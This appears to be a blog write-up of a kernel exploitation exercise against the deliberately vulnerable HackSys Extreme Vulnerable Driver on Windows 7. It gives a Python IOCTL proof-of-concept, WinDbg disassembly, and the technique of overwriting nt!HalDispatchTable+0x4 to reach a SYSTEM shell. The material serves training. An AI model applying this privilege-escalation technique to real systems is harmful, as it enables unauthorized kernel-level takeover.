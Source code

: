 ```yaml
---
layout:		post
title:		HackSysExtremeVulnerableDriver ArbitraryOverwrite
author:		wooy0ung
tags:		hevd
category:	exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Save this code，rename to poc.py
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*4 + "B"*4
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Execute this scripts, we can see it work fine!
```
 ##     ## ######## ##     ## ########  
 ##     ## ##       ##     ## ##     ## 
 ##     ## ##       ##     ## ##     ## 
 ######### ######   ##     ## ##     ## 
 ##     ## ##        ##   ##  ##     ## 
 ##     ## ##         ## ##   ##     ## 
 ##     ## ########    ###    ########  
   HackSys Extreme Vulnerable Driver    
             Version: 1.20              
[+] HackSys Extreme Vulnerable Driver Loaded
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x01AFB634
[+] WRITE_WHAT_WHERE Size: 0x8
[+] UserWriteWhatWhere->What: 0x41414141
[+] UserWriteWhatWhere->Where: 0x42424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```


## 0x002 How to Exploit it?

At Addr 0x84122fa6, it will call nt!KeQueryIntervalProfile
```
kd> u nt!NtQueryIntervalProfile
kd> u
nt!NtQueryIntervalProfile+0x62:
84122f9d 7507            jne     nt!NtQueryIntervalProfile+0x6b (84122fa6)
84122f9f a16c1bf483      mov     eax,dword ptr [nt!KiProfileInterval (83f41b6c)]
84122fa4 eb05            jmp     nt!NtQueryIntervalProfile+0x70 (84122fab)
84122fa6 e8e6e8fbff      call    nt!KeQueryIntervalProfile (840e1891)
84122fab 84db            test    bl,bl
84122fad 741b            je      nt!NtQueryIntervalProfile+0x8f (84122fca)
84122faf c745fc01000000  mov     dword ptr [ebp-4],1
84122fb6 8906            mov     dword ptr [esi],eax
```

Step into nt!KeQueryIntervalProfile, and diasmbly
```
kd> u nt!KeQueryIntervalProfile
kd> u
nt!KeQueryIntervalProfile+0x23:
840e18b4 ff15bc23f483    call    dword ptr [nt!HalDispatchTable+0x4 (83f423bc)]
840e18ba 85c0            test    eax,eax
840e18bc 7c0b            jl      nt!KeQueryIntervalProfile+0x38 (840e18c9)
840e18be 807df400        cmp     byte ptr [ebp-0Ch],0
840e18c2 7405            je      nt!KeQueryIntervalProfile+0x38 (840e18c9)
840e18c4 8b45f8          mov     eax,dword ptr [ebp-8]
840e18c7 c9              leave
840e18c8 c3              ret
```
At Addr 0x840e18b4, it will call nt!HalDispatchTable+0x4

Overwrite the pointer at nt!HalDispatchTable+0x4 with the address of our shellcode function

In this challenge, I should use function id() to get the shellcode's object

Why? Maybe you can find out the answer in this picture!
![](/assets/img/exploit/2018-08-03-hacksys-extreme-vulnerable-driver-arbitraryoverwrite/0x001.png)

now, our shellcode in 0x01270000, there is 0x14 offset at object Addr
![](/assets/img/exploit/2018-08-03-hacksys-extreme-vulnerable-driver-arbitraryoverwrite/0x002.png)
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x01AD1C54
[+] WRITE_WHAT_WHERE Size: 0x8
[+] UserWriteWhatWhere->What: 0x01AD1C60
[+] UserWriteWhatWhere->Where: 0x83F373BC
[+] Triggering Arbitrary Overwrite
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
Access violation - code c0000005 (!!! second chance !!!)
00000001 ??              ???
kd> dc 0x01AD1C60
01ad1c60  00000001 679d9308 00000004 ffffffff  .......g........
01ad1c70  00000000 01270000 01ac1a00 00000044  ......'.....D...
01ad1c80  01ad1ca0 679d9308 0000000b 486da79e  .......g......mH
01ad1c90  00000001 49584557 41545354 00535554  ....WEXITSTATUS.
01ad1ca0  01ad1840 679d9308 00000007 e0702551  @......g....Q%p.
01ad1cb0  00000001 484f4e57 00474e41 00000026  ....WNOHANG.&...
01ad1cc0  00000001 679d9308 00000006 3f1c8d80  .......g.......?
01ad1cd0  00000001 75746573 00006469 01ad1ce0  ....setuid......
```

finally, I would get a system cmd!
![](/assets/img/exploit/2018-08-03-hacksys-extreme-vulnerable-driver-arbitraryoverwrite/0x003.png)